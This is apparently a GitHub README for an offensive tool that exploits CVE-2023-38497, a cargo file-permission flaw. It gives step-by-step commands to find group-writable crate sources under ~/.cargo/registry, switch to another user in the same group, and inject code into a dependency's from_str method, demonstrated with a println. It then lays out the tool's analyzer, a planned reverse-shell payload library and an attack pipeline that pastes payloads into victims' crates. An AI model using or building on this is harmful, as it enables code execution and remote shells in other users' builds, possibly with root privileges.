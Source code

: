 
## Description
A new vulnerability in cargo version `1.7.0` has been found as explained [here](https://blog.rust-lang.org/2023/08/03/cve-2023-38497.html).

## Step by Step

First you have to make sure your cargo version is vulnerable

`cargo --version`

Supose I have a cargo project with the following `src/main.rs` file:

```
use num_bigint::BigInt;
use std::str::FromStr;

// Silly guessing game
fn main() {
    let secret_number = BigInt::from_str("123456789");
    loop {
        println!("Make a guess: ");
        let mut guess = String::new();
        std::io::stdin()
            .read_line(&mut guess)
            .expect("Error reading stdin");
        let guess = BigInt::from_str(guess.trim());
        if guess == secret_number {
            println!("That's right");
            break;
        }
    }
}
```

If I run the program:
```
cargo run
Make a guess:
20
Make a guess:
123456789
That's right!
```

Nothing wrong here.

Next, for all installed crates in your system, filter the ones whose permissions have bad configuration, that is, can be written by group or any other machine users

`find ~/.cargo/registry/src/* -type f -writable -print | egrep "*\.rs"`

This will yield a list of all vulnerable rust source files. From these chose the file that is suitable for your attack, which should be one in which there is defined a method that is used in the source code of the target cargo project.

And from the listing above I find the following vulnerable file: 

`$HOME/.cargo/registry/src/index.crates.io-.../num-bigint-0.1.44/src/bigint.rs`

Which as promised previously has the following permissions: `-rw-rw-r--`

Therefore it can be modified by any user in the same group as the cargo project owner, that's scary. But imagine any user could write that file, well there are crates with such permissions.

Now you can add a new user to your machine, or use an existing one other than the project user which belongs to the same group as the user for the file we're targeting. For example that source file in my machine has the following owner and group
`atreides people`
and another user I have, returns the following from running `id` command on him:

`uid=54322(bob) gid=54331(bob) groups=54331(bob),1000(people)`

Now we know user `bob` can write our target file and any other with such permissions. Switch to `bob` and follow up.

Taking a look into our guessing game we can see it is being used the `from_str` method from `BigInt` struct. That could be an interesting method to look at.

From the target file I've extracted this piece of code: 
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        BigInt::from_str_radix(s, 10)
    }
}
```

Now, what if you make it look like this
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        println!("Message from beyond");
        BigInt::from_str_radix(s, 10)
    }
}
```

And rerun it cleaning the target directory:
```
cargo clean && cargo run
Make a guess:
20
Message from beyond
Make a guess:
123456789
Message from beyond
That's right!
```

Woah! Imagine you are writting your cargo project and you get the following messages.

Note that this will only happen whenever the target directory has been deleted previously, that is, cargo has to compile the crate after you modify the source file.

Now, this is only a demo on how to exploit this vulnerability, but imagine if you place any sort of payload inside a source file. This repo aims to establish reverse shell connection with the user's account whenever he runs a cargo project.

This is a mayor vulnerability if you consider that there could be cargo installations with root privileges so the placed payload would be executing with such permissions.

# Project Structure

In this project you will find the following utilities:

## Vulnerability analyzer

Searches accross the local cargo archive and a target cargo project to find all specific methods that could be exploited in the target's source code.
If there's a method in particular you'd like to exploit or you don't have read permissions on the target cargo project, skip the vanalyzer in the attack pipeline.

## Available payloads

All payload types (reverse shell mainly and other malware) that can be placed inside a target crate source code. All available payloads as of now are:

- Reverse Shell (first that will be implemented)

## Integration

Mock shell that receives commands to run the vulnerability analyzer and
take one of the payloads listed above and a selected method to exploit from the vulnerability analyzer and integrates (copy and paste) the payload into the source code.

# Attack pipeline
1. Run the mock shell (cargo project)

`cargo run`

2.
- Via vanalyzer +  integrate commands

`vanalyzer <cargo_project> <target_username>`

`integrate <file_no> <method_no> <payload>`

- Via exploit

`exploit <path_to_local_archive_crate_file> <method's_name> <payload>`

3. Run ok command

`ok`
